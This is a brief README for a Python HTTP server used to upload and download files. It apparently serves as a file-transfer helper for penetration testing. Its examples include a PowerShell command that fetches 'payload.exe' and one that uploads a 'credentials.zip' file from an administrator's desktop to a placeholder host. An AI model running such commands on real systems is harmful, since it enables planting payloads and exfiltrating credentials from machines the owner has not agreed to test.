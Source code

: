 # Multi-functions python HTTP Server
A HTTP Server for downloading or uploading file.

Usage:  
Start HTTP Server  
```bash
python3 HTTP_Server.py
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

sudo python3 HTTP_Server.py 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Option1:
Download or upload file using web browser
Visit http://[host.ip]:8080

Option2:
Download file  
`Invoke-WebRequest -Uri http://[host.ip]:8080/payload.exe -OutFile payload.exe`  
Upload file  
`Invoke-Restmethod -uri http://[host.ip]:8080/credentials.zip -Method Put -Infile C:\\users\\administrator\\desktop\\credentials`  

